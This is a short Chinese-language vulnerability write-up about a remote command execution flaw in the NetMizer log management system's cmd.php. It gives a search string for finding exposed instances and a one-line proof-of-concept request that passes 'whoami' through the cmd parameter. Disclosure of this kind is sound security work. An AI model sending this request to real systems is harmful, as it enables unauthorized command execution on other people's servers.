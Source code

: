 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

<a-checkbox checked>NetMizer 日志管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="NetMizer 日志管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628834857867-6694d560-2345-49e8-9460-2296c316a7a3-20220314133236391.png)

验证POC

```python
/data/manage/cmd.php?cmd=whoami
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637918595617-0674c271-9040-4d74-acc4-1e0c1d71ab7c.png)



若有收获，就点个赞吧